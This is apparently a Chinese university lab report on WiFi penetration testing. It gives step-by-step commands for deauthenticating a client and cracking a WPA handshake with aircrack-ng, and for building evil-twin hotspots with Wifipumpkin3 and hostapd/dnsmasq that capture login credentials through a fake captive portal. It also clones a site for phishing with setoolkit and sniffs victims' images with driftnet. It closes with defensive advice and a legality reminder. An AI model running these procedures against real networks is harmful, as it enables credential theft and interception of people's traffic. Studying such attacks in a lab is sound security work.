


# 实验三 WIFI渗透
- [x] [题目一：使用Aircrack-ng进行wifi渗透](#题目一使用aircrack-ng进行wifi渗透)
- [x] [题目二：WIFI路由器钓鱼实验(完成至环境配置)](#题目二wifi路由器钓鱼实验) 
- [x] [题目三：WIFI钓鱼实验](#题目三wifi钓鱼实验)
- [x] [自由探索一：基于setoolkit的钓鱼实验](#自由探索一基于setoolkit的钓鱼实验)
- [x] [自由探索二：基于driftnet的钓鱼实验](#自由探索二基于driftnet的钓鱼实验)
## 一、实验目的
- 了解Kali下常见的渗透工具的使用；
- 了解钓鱼网站的工作原理；
- 了解如何结合无线网卡进行渗透测试；
- 了解当前对于钓鱼网站的防范策略。

## 二、实验环境
#### 硬件
- USB接口的无线网卡
  - TP-LINK TL-WN722N</b>
```bash
┌──(root💀kali)-[~]
└─# iw phy
Wiphy phy0
        wiphy index: 0
        max # scan SSIDs: 4
        max scan IEs length: 2257 bytes
        max # sched scan SSIDs: 0
        max # match sets: 0
        Retry short limit: 7
        Retry long limit: 4
        Coverage class: 0 (up to 0m)
        Device supports RSN-IBSS.
        Device supports T-DLS.
        Supported Ciphers:
                * WEP40 (00-0f-ac:1)
                * WEP104 (00-0f-ac:5)
                * TKIP (00-0f-ac:2)
                * CCMP-128 (00-0f-ac:4)
                * CCMP-256 (00-0f-ac:10)
                * GCMP-128 (00-0f-ac:8)
                * GCMP-256 (00-0f-ac:9)
                * CMAC (00-0f-ac:6)
                * CMAC-256 (00-0f-ac:13)
                * GMAC-128 (00-0f-ac:11)
                * GMAC-256 (00-0f-ac:12)
        Available Antennas: TX 0x1 RX 0x1
        Configured Antennas: TX 0x1 RX 0x1
        Supported interface modes:
                 * IBSS
                 * managed
                 * AP
                 * AP/VLAN
                 * monitor
                 * mesh point
                 * P2P-client
                 * P2P-GO
                 * outside context of a BSS
        Band 1:
                Capabilities: 0x116e
                        HT20/HT40
                        SM Power Save disabled
                        RX HT20 SGI
                        RX HT40 SGI
                        RX STBC 1-stream
                        Max AMSDU length: 3839 bytes
                        DSSS/CCK HT40
                Maximum RX AMPDU length 65535 bytes (exponent: 0x003)
                Minimum RX AMPDU time spacing: 8 usec (0x06)
                HT TX/RX MCS rate indexes supported: 0-7
                Bitrates (non-HT):
                        * 1.0 Mbps
                        * 2.0 Mbps (short preamble supported)
                        * 5.5 Mbps (short preamble supported)
                        * 11.0 Mbps (short preamble supported)
                        * 6.0 Mbps
                        * 9.0 Mbps
                        * 12.0 Mbps
                        * 18.0 Mbps
                        * 24.0 Mbps
                        * 36.0 Mbps
                        * 48.0 Mbps
                        * 54.0 Mbps
                Frequencies:
                        * 2412 MHz [1] (20.0 dBm)
                        * 2417 MHz [2] (20.0 dBm)
                        * 2422 MHz [3] (20.0 dBm)
                        * 2427 MHz [4] (20.0 dBm)
                        * 2432 MHz [5] (20.0 dBm)
                        * 2437 MHz [6] (20.0 dBm)
                        * 2442 MHz [7] (20.0 dBm)
                        * 2447 MHz [8] (20.0 dBm)
                        * 2452 MHz [9] (20.0 dBm)
                        * 2457 MHz [10] (20.0 dBm)
                        * 2462 MHz [11] (20.0 dBm)
                        * 2467 MHz [12] (20.0 dBm)
                        * 2472 MHz [13] (20.0 dBm)
                        * 2484 MHz [14] (disabled)
        Supported commands:
                 * new_interface
                 * set_interface
                 * new_key
                 * start_ap
                 * new_station
                 * new_mpath
                 * set_mesh_config
                 * set_bss
                 * authenticate
                 * associate
                 * deauthenticate
                 * disassociate
                 * join_ibss
                 * join_mesh
                 * remain_on_channel
                 * set_tx_bitrate_mask
                 * frame
                 * frame_wait_cancel
                 * set_wiphy_netns
                 * set_channel
                 * set_wds_peer
                 * tdls_mgmt
                 * tdls_oper
                 * probe_client
                 * set_noack_map
                 * register_beacons
                 * start_p2p_device
                 * set_mcast_rate
                 * connect
                 * disconnect
                 * channel_switch
                 * set_qos_map
                 * set_multicast_to_unicast
        software interface modes (can always be added):
                 * AP/VLAN
                 * monitor
        valid interface combinations:
                 * #{ managed, P2P-client } <= 2, #{ AP, mesh point, P2P-GO } <= 2,
                   total <= 2, #channels <= 1
        HT Capability overrides:
                 * MCS: ff ff ff ff ff ff ff ff ff ff
                 * maximum A-MSDU length
                 * supported channel width
                 * short GI for 40 MHz
                 * max A-MPDU length exponent
                 * min MPDU start spacing
        Device supports TX status socket option.
        Device supports HT-IBSS.
        Device supports SAE with AUTHENTICATE command
        Device supports low priority scan.
        Device supports scan flush.
        Device supports AP scan.
        Device supports per-vif TX power setting
        Driver supports full state transitions for AP/GO clients
        Driver supports a userspace MPM
        Device supports configuring vdev MAC-addr on create.
        max # scan plans: 1
        max scan plan interval: -1
        max scan plan iterations: 0
        Supported TX frame types:
                 * IBSS: 0x00 0x10 0x20 0x30 0x40 0x50 0x60 0x70 0x80 0x90 0xa0 0xb0 0xc0 0xd0 0xe0 0xf0
                 * managed: 0x00 0x10 0x20 0x30 0x40 0x50 0x60 0x70 0x80 0x90 0xa0 0xb0 0xc0 0xd0 0xe0 0xf0
                 * AP: 0x00 0x10 0x20 0x30 0x40 0x50 0x60 0x70 0x80 0x90 0xa0 0xb0 0xc0 0xd0 0xe0 0xf0
                 * AP/VLAN: 0x00 0x10 0x20 0x30 0x40 0x50 0x60 0x70 0x80 0x90 0xa0 0xb0 0xc0 0xd0 0xe0 0xf0
                 * mesh point: 0x00 0x10 0x20 0x30 0x40 0x50 0x60 0x70 0x80 0x90 0xa0 0xb0 0xc0 0xd0 0xe0 0xf0
                 * P2P-client: 0x00 0x10 0x20 0x30 0x40 0x50 0x60 0x70 0x80 0x90 0xa0 0xb0 0xc0 0xd0 0xe0 0xf0
                 * P2P-GO: 0x00 0x10 0x20 0x30 0x40 0x50 0x60 0x70 0x80 0x90 0xa0 0xb0 0xc0 0xd0 0xe0 0xf0
                 * P2P-device: 0x00 0x10 0x20 0x30 0x40 0x50 0x60 0x70 0x80 0x90 0xa0 0xb0 0xc0 0xd0 0xe0 0xf0
        Supported RX frame types:
                 * IBSS: 0x40 0xb0 0xc0 0xd0
                 * managed: 0x40 0xb0 0xd0
                 * AP: 0x00 0x20 0x40 0xa0 0xb0 0xc0 0xd0
                 * AP/VLAN: 0x00 0x20 0x40 0xa0 0xb0 0xc0 0xd0
                 * mesh point: 0xb0 0xc0 0xd0
                 * P2P-client: 0x40 0xd0
                 * P2P-GO: 0x00 0x20 0x40 0xa0 0xb0 0xc0 0xd0
                 * P2P-device: 0x40 0xd0
        Supported extended features:
                * [ RRM ]: RRM
                * [ FILS_STA ]: STA FILS (Fast Initial Link Setup)
                * [ CQM_RSSI_LIST ]: multiple CQM_RSSI_THOLD records
                * [ CONTROL_PORT_OVER_NL80211 ]: control port over nl80211
                * [ SCAN_RANDOM_SN ]: use random sequence numbers in scans
                * [ SCAN_MIN_PREQ_CONTENT ]: use probe request with only rate IEs in scans
                * [ CONTROL_PORT_NO_PREAUTH ]: disable pre-auth over nl80211 control port support
                * [ DEL_IBSS_STA ]: deletion of IBSS station support
                * [ MULTICAST_REGISTRATIONS ]: mgmt frame registration for multicast
                * [ SCAN_FREQ_KHZ ]: scan on kHz frequency support
                * [ CONTROL_PORT_OVER_NL80211_TX_STATUS ]: tx status for nl80211 control port support

```

#### 软件
- MacOS Monterey
- Kali Rolling
-  OpenWrt 19.07.4


## 三、实验步骤
### 题目一：使用Aircrack-ng进行wifi渗透
#### 1.准备阶段
##### 1.1 查看无线网卡
```bash
sudo ifconfig
```
- wlan0无ip地址，说明网卡现在没有连接到任何Wifi，可以进行下一步实验
</b>

##### 1.2 载入无线网卡驱动，激活无线网卡至monitor（监听模式）
```bash
sudo ifconfig wlan0 up
sudo airmon-ng start wlan0
```
</b>
> monitor mode enable for wlan0mon，即在监听模式下，无线网卡的名称已经变为了wlan0mon

##### 1.3 重启网卡
```bash
sudo ifconfig wlan0mon down
sudo iwconfig wlan0mon mode monitor
sudo ifconfig wlan0mon up 
```
</b>

#### 2.探测阶段
##### 2.1 探测周围wifi的信息
```bash
sudo airodump-ng wlan0mon
```
</b>

> - ESSID，即周围wifi的名字；
> - BSSID，即wifi对应的mac地址；
> - ENC，加密方式。可以看到基本都是WPA2的，很少有WPA和WEP。因为这两个的安全性弱于WPA2次之；
> - CH，即工作频道。

- 要破解的是`1603`.它的mac地址是**8C:53:C3:84:6D:D6**;
- 下半部分罗列出连接到这个wifi内的设备的mac地址，注意观察第一条，08:ED:B9:89:FB:B1，这个是我的电脑，它此时连接到FC:D7:33:3F:BC:F8这个路由器的wifi网络内，这个wifi的工作频道是10，需要记住。

#### 3.抓包阶段
```bash
sudo airodump-ng --ivs -c 10 --bssid 8C:53:C3:84:6D:D6 -w test wlan0mon
```
</b>

#### 4.攻击阶段

sudo aireplay-ng -0 1 -c A4:83:E7:3C:20:75 –a 8C:53:C3:84:6D:D6 wlan0mon

</b>
</b>

```bash
sudo aircrack-ng -w Desktop/dict1.txt test-01.ivs
```
</b>


### 题目二：WIFI路由器钓鱼实验
> 由于路由器内存不足等原因，本实验基于`Openwrt虚拟机+无线网卡搭建软路由`实现

#### 1.搭建软路由
##### 1.1 OpenWrt 的管理接口配置
```bash
# 指定网卡 lan 的 IP 地址用于 SSH 连接，便于后续操作（代码/指令的复制与粘贴）
vi /etc/config/network
# 重新加载 eth0 配置生效
ifdown eth0 && ifup eth0
# 安装 Luci 软件包与查看 USB 设备信息的工具
opkg update && opkg install luci usbutils
```
- 检测网卡驱动,发现`AR9271`无线驱动</b>
- 安装驱动
```bash
#快速查找可能包含指定芯片名称的驱动程序包
root@OpenWrt:~# opkg find kmod-* | grep AR9271
kmod-ath9k-htc - 4.14.209+4.19.137-1-2 - This module adds support for wireless adapters based on Atheros USB AR9271 and AR7010 family of chipsets.
#安装上述查询出的驱动
opkg install kmod-ath9k-htc
#安装完成后检查：
root@OpenWrt:~# lsusb -t
/:  Bus 02.Port 1: Dev 1, Class=root_hub, Driver=xhci_hcd/6p, 5000M
/:  Bus 01.Port 1: Dev 1, Class=root_hub, Driver=xhci_hcd/8p, 480M
    |__ Port 1: Dev 2, If 0, Class=Vendor Specific Class, Driver=ath9k_htc, 480M   
root@OpenWrt:~#
```
- 安装成功后如图</b>

- 安装`wpa-supplicant` 和 `hostapd`
```bash
# wpa-supplicant 提供 WPA 客户端认证，hostapd 提供 AP 或 ad-hoc 模式的 WPA 认证。
opkg install hostapd wpa-supplicant
```
- 重启系统，使得上述安装的配置生效。以便能够在LuCi 的网页版中管理无线网卡设置。能在网页版的Network下拉菜单中看见Wireless为上述操作成功的标识。</b>
- 修改配置使其能发送信号，手机连接后如图</b>


#### 2. 在OpenWrt路由器上配置SWORD
##### 2.1 移动文件
- 解压后目录结构如下</b>
- 将`SWORD/cgi-bin/sword`和`cgi-bin/test`复制到路由器`/www/cgi-bin`目录下
```bash
scp -r SWORD/cgi-bin/sword root@192.168.56.11:/www/cgi-bin
scp -r SWORD/cgi-bin/test root@192.168.56.11:/www/cgi-bin
```
- 将`SWORD/SWORD`复制到路由器`/www/`目录下
```bash
scp -r SWORD/SWORD root@192.168.56.11:/www
```
##### 2.2 安装依赖包
- 由于SWORD的功能集于bash脚本实现，故先在OpenWrt上安装`bash`包
```bash
root@OpenWrt:~# opkg update && opkg intsall bash
```
##### 2.3 授权目录
- 给目录`/cgi-bin`分配权限以确保渗透功能的实现
```bash
root@OpenWrt:~# chmod -R 655 /www/cgi-bin/*
```
##### 2.4 使用浏览器访问SWORD页面
- 在浏览器中输入`192.168.56.11/SWORD`并跳转

**完成上述配置后，即可得到一个拥有Web界面的多功能网络攻击工具**了</b>

- 添加一个名为Mon0，模式为monitor的节点
```bash
iw wlan0 interface add Mon0 type monitor
```

- 添加节点后，后续渗透功能才能实现。</b>

**由于路由器flash不足、OpenWrt版本不适配、软件包丢失、无详细操作手册等原因，实验后续步骤无法成功开展，故更用`setoolkit`基于`kali`搭建钓鱼网站，详细步骤在下文给出。**

### 题目三：WIFI钓鱼实验
> 说明：由于实验环境的kali版本过高，在下载`wifi-Pumpkin`时遇到了不计其数的困难，加之查阅文档得知`wifi-Pumpkin`已被停止维护，作者建议下载最新的`Wifipumpkin3`,故下述实验基于`Wifipumpkin3`完成.
#### 1. 下载与安装
- 安装依赖并下载代码到本地
```bash
 $ sudo apt install libssl-dev libffi-dev build-essential
```
</b>
```bash
 $ git clone https://github.com/P0cL4bs/wifipumpkin3.git
 $ cd wifipumpkin3
```
</b>

- 安装PyQt5并确认
```bash
sudo apt install python3-pyqt5

python3 -c "from PyQt5.QtCore import QSettings; print('done')"
```
> 若输出如下，即成功安装该模块

</b>

- 安装wp3
```bash
sudo python3 setup.py install
```
</b>

- 运行
```bash
sudo wifipumpkin3
```
</b>

#### 2. 初步建立伪站点
- 进入到pumpkin3环境中首先初步体验功能，可以建立起一个简单的热点
```bash
# 设置名称
wp3 > set ssid evil-lychee
# 选择网卡
wp3 > set interface wlan0
# 设置代理插件
wp3 > set proxy noproxy
wp3 > start
```
</b>

- 与此同时手机便能搜索到名为`evil-lychee`的伪站点</b>
- 手机连接后，pumpkin3返回连接情况</b>

#### 3. 利用captiveflask强制用户登录到钓鱼网站
> `captiveflask`是框架中代理功能中的一个选项，可以阻止连接此wifi的用户上网，并令`http`请求跳转到钓鱼登录页面，从而获取用户的账号密码.

**以内置的登录网页为例**
- `wifipumpkin3/wifipumpkin3/plugins/captiveflask`目录下有四个内置登录网页,本次实验选用`DarkLogin`</b>
- 依旧建立一个伪站点
```bash
# 设置名称
wp3 > set ssid evil-yq
# 选择网卡
wp3 > set interface wlan0
# 设置代理插件
wp3 > set proxy captiveflask
# 设置模板
wp3 > set captiveflask.DarkLogin true
wp3 > start
```
</b>

- 查看目前启用的插件和代理</b>
- 手机连接名为`evil-yq`的无线网络，跳转至登录界面</b>
- 输入账号密码，即被捕获</b>

**至此，基于Wifipumpkin3的WIFI钓鱼实验成功**

### 自由探索一：基于setoolkit的钓鱼实验
#### 1.setoolkit简介
> **setoolkit是kali下的社会工程学工具集,主要功能有：**
> 1. 鱼叉式网络钓鱼攻击
> 2. 网页攻击
> 3. 传染媒介式（俗称木马）
> 4. 建立payloaad和listener
> 5. 邮件群发攻击（夹杂木马啊payload的玩意发给你）
> 6. Arduino基础攻击
> 7. 无线接入点攻击
> 8. 二维码攻击
> 9. Powershell攻击
> 
#### 2.基于setoolkit制作钓鱼网站
##### 2.1 功能选择
- kali命令行打开工具
```bash
setoolkit
```
- 可以看到有如下选项，选择第一个「社会工程学攻击」</b>
- 接下来跳转至第二次选项，选择「网页攻击」</b>
- 接下来跳转至第三次选项，选择「钓鱼攻击」</b>
- 接下来跳转至第四次选项，选择「站点克隆」</b>

##### 2.2 站点克隆
- setoolkit要求输入克隆完之后的网站返回的ip地址，本实验中填写虚拟机的IP地址 </b>
##### 2.3 钓鱼过程
- 在浏览器中输入虚拟机的ip，即可跳转到钓鱼网站的页面,外观与被克隆的页面完全一致</b>
- 输入账号密码，即可登录到正常的页面内，以下为完整过程：</b>
- 回到kali中，可以看到刚才访问页面并登录的全过程已经被记录</b>

- 由于本次测试中被克隆网站的安全性较高，对于输入内容进行**rsa加密**，故后台无法回显账号密码原内容。
  - 补充：后经测试另一安全性较弱的网站,可以记录到账号密码的原内容</b>

> 当然，以上钓鱼功能只能在同一个局域网内实现，如果想让外网也能访问，这就需要借助**内网穿透**来实现。

### 自由探索二：基于driftnet的钓鱼实验
#### 1. driftnet简介
> `drifnet`是Kali Linux内置了一款专用工具。该工具可以支持实时嗅探和离线嗅探。它可以从数据流中提取JPEG和GIF这两种网络最常用图片格式的数据，并进行保存，供渗透测试人员进行分析；此外，它还可以提取MPEG的声音数据，并进行播放。

#### 2. 基于setoolkit进行网络钓鱼
##### 2.1 配置网卡
- 检查wlan0是否存在
```bash
ifconfig 
```

- 将网卡激活为monitor模式</b>

##### 2.2 配置hostapd
- 编辑如下配置文件
```bash
vim hostapd.conf

interface=wlan0mon 
driver=ath9k_htc 
ssid=test-wifi #无线名称 随意即可 
hw_mode=g 
channel=6 
macaddr_acl=0 
ignore_broadcast_ssid=0
```
</b>

##### 2.3 配置dnsmasq
```bash
vim dnsmasq.conf

interface=wlan0mon 
dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h 
dhcp-option=3, 192.168.1.1 
dhcp-option=6, 192.168.1.1 
server=8.8.8.8 
log-queries 
log-dhcp 
listen-address=127.0.0.1
```
</b>

##### 2.4 配置防火墙和端口转发
```bash
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE 
iptables --append FORWARD --in-interface wlan0mon -j ACCEPT 
echo 1 > /proc/sys/net/ipv4/ip_forward
```
</b>

##### 2.5 给无线网卡分配IP地址
- 此举可以使连接钓鱼Wifi的受害者可以正常访问互联网
```bash
ifconfig wlan0mon up 192.168.1.1 netmask 255.255.255.0 

route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```
</b>

##### 2.6 下载hostapd
```bash
apt-get install hostapd
```
</b>

##### 2.7 启动钓鱼热点
```bash
hostapd hostapd.conf
```


##### 2.8 安装dnsmasq
```bash
apt-get install dnsmasq
```


##### 2.9 启动dnsmasq


#### 3.进行wifi钓鱼
##### 3.1 安装driftnet
```bash
apt-get install driftnet
```


##### 3.2 利用driftnet进行嗅探
```bash
driftnet -i wlan0mon
```
- 手机上进行图片的浏览、转发</b>
- Kali检测到图片</b>

**至此，基于driftnet的WIFI钓鱼实验成功**

## 四、实验小结
- 从无线网络接入者的角度来看，其安全性完全取决于**无线网络搭建者的身份**。受到各种客观因素的限制，很多数据在无线网络上传输时都是**明文**的，如一般的网页、图片等；还有很多网站或邮件系统甚至在手机用户进行登录时，将账号和密码也进行了**明文传输或只是简单加密传输**。因此，一旦有手机接入攻击者架设的钓鱼热点，通过该网络传输的各种信息（包括账号和密码等）就有**可能被攻击者所截获**。
- 例如，在**校园网泄露案例**中，当得到账户密码后，我们同时获取的也将是该被攻击者的内网登录账户。而登陆内网平台，不仅将会导致此人的**个人信息严重泄露**，同时黑客将有可能借助此人的身份进行更进一步的渗透。比如在内网平台上可向全校任意师生发送站内邮件，黑客可利用该功能发送**附有恶意程序的钓鱼邮件**，从而跳入内网，造成**更大危害**。一切进一步的攻击，都将基于对被攻击者的**身份信任**；被攻击者账户的泄露，也是基于对**无线网络的惯性信任**。
> 这种基于信任的安全体系，是不安全的，脆弱的，一攻击破的。或者换言之：现有的安全体系已经是不可信任，而仍然对其保持信任将导致风险的高度提升。

- 作为**普通用户**，可以遵循简单规则来保护个人数据，如：
  - 对公共Wi-Fi网络采取不信任的态度，尽量**不连接没有密码保护的无线网络**；
  - 在使用**公共热点**时，尽量避免输入社交网络、邮件服务、网上银行等登录信息，避免使用网银、支付宝等包含**敏感信息**的应用软件；
  - 在不使用Wi-Fi时关闭Wi-Fi功能，**避免自动连接功能**带来的风险；
  - 在有条件的情况下，使用**虚拟专用网络（VPN）**连接，这将使用户数据通过受保护的隧道传输。
  
- 而如果要建立一种**安全的防护体系**，最为可行的办法有：
  - 1. 建立更加**完善的技术安全体系**，以更加安全的防护**恢复**用户对其的信任；
  - 2. 彻底消除对于安全体系的信任，建立以**零信任为基础**的安全体系。即认为任何安全体系都不是安全的，对于一切通讯与加密认为是不安全的，并以此为理念建立新的防护体系。


- 通过查阅资料得知，2021年年初发布的以**零信任理念**构建的终端安全产品可以做到防止员工连入钓鱼热点，或即使连入了钓鱼热点也能受到保护：
</b>

> 1. 当用户设备**主动或被动连接开放式**网络时，零信任终端安全产品可结合正在连接热点的MAC地址及其他无线特征进行**WiFi接入点身份验证**，验证失败时拒绝访问请求并警告用户遭到无线钓鱼攻击，从而有效防止**伪造公共热点无线钓鱼攻击**。

> 2. 当设备通**过DHCP服务获取IP地址**时，也采取了该网络指定的DNS地址。零信任终端安全产品可以**对设备DNS状态进行合规性检查**，可以采取强制指定DNS服务地址的策略，或检测该DNS服务对互联网重点域名或公司相关域名的解析是否正常。验证失败时拒绝访问请求并帮助用户修复异常DNS状态,有效避免**DNS劫持**

> 3. 零信任模型进行**Captive Portal安全加固**，对Captive Portal进行检测并实施相应的加固。在用户**完成网络认证**后，再进行DNS缓存清理和修正工作。

> 4. 零信任终端安全产品可以对**Windows hash**进行安全加固，防止其被泄漏。

> 5. 零信任终端安全产品具有**传统终端安全软件的防护能力**，以发现并阻断来自网络的攻击,从而避免员工设备连入目标无线网络后，设备所开放的各种服务端口可能**被局域网中**的其他设备所利用或攻击。

> 6. 零信任终端安全产品通过**开启全链路加密**来避免链路上来自攻击者的**敏感信息监听威胁**。

- 同时，作为掌握渗透技能等网络安全核心技术的「白帽黑客」，善恶仅在一念之间。信息安全从业者一定要坚守**职业底线，知法守法**，避免侥幸心理，做好自己，避免误入歧途。


## 五、问题与解决方法
- 问题-1：在安装好wp3运行`sudo wifipumpkin3`时报错
```bash
ImportError: cannot import name 'gcd' from 'fractions' (/usr/lib/python3.9/fractions.py)
```
- 解决-1：按照报错对`rsa.py`文件进行如下修改
```bash
sudo vim /usr/local/lib/python3.9/dist-packages/cryptography/hazmat/primitives/asymmetric/rsa.py   
```


> 保存后再运行即无报错.

- 问题-2：在安装wp3并执行`sudo python3 setup.py install`时报如下错</b>
- 解决-2：根据报错进行对应包的更新，注意一定要在管理员权限下</b>

## 六、参考资料
- [zer0byte/sword](https://github.com/zer0byte/sword)
- [SWORD dropbox: A $15 OpenWRT based DIY disposable pen-test tool](https://medium.com/@tomac/a-15-openwrt-based-diy-pen-test-dropbox-26a98a5fa5e5)
- [Wifipumpkin3](https://wifipumpkin3.github.io/docs/getting-started#installation)
- [wifipumpkin3 don’t run](https://archived.forum.manjaro.org/t/wifipumpkin3-dont-run/145246)
- [asn1crypto 1.4.0 is installed but asn1crypto>=1.5.1 is required](https://github.com/byt3bl33d3r/CrackMapExec/issues/377)
- [ImportError: cannot import name 'gcd' from 'fractions' (/usr/lib/python3.9/fractions.py)](https://github.com/smicallef/spiderfoot/issues/1124)
- [hostapd is not installed in the system](https://github.com/P0cL4bs/wifipumpkin3/issues/53)
- [Kali-driftnet](https://www.kali.org/tools/driftnet/)
- [Kali-setoolkit](https://www.kali.org/tools/set/)
- [《2019中国网络安全产业白皮书》发布，腾讯参与编写展示零信任最新研究成果](https://www.fromgeek.com/latest/265119.html)